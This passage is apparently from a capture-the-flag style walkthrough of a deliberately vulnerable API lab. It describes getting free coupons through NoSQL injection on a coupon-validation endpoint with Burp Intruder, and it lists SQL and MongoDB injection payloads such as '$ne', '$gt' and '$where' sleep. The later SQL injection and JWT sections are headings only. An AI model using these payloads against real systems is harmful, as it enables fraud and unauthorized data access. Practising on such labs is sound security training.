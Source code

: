 
## NoSQL Injection

### Challenge 12 - Find a way to get free coupons without knowing the coupon code.

1. In the "Enter Coupon Code" box, enter a few characters and click Validate.
2. From the HTTP History tab, click this request: POST `/community/api/v2/coupon/validate-coupon`
3. Send to Intruder and add brackets to the coupon code parameter including the quotes.
4. Make a list of payloads using:
'
''
;%00
--
-- -
""
;
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
OR 1=1
$gt
{"$gt":""}
{"$gt":-1}
$ne
{"$ne":""}
{"$ne":-1}
$nin
{"$nin":1}
{"$nin":[1]}
|| '1'=='1
//
||'a'\\'a
'||'1'=='1';//
'/{}:
'"\;{}
'"\/$[].>
{"$where":  "sleep(1000)"}
5. 


## SQL Injection

### Challenge 13 - Find a way to redeem a coupon that you have already claimed by modifying the database

## JWT Vulnerabilities
